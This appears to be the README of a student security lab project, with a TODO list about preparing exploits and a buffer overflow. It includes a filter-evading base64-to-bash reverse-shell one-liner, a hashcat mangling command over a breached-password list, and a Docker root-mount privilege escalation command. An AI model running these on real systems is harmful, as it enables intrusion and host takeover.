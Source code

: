# BAU-project
## TODO
1. Finish UI
2. Nabil create a docker image
3. Prepare exploits
4. Documentation :(
5. Enhance ProgramDownloader and test BoF attack
9. Developers group can manage services (create a malicious service file and run it)
999. after finally ( apt install forensics-all) (optional)

### PakageDownloader.c
```bash
# Reverse shell command
echo${IFS}<BASE64-Encoded-Payload>|base64${IFS}-d|bash
```
## Breach similation (might cancel..)
```
https://pastebin.com/UycbfwRP
```
## Password list
Download: https://github.com/clem9669/hashcat-rule/blob/master/clem9669_medium.rule
```
# mohammad_threats2022 (sample in PassFromBreach.txt )
hashcat -r clem9669_medium.rule --stdout PassFromBreach.txt > output.txt
```
## Docker priv abuse
```
docker run --rm -it -v /:/MountedFS ubuntu bash
```
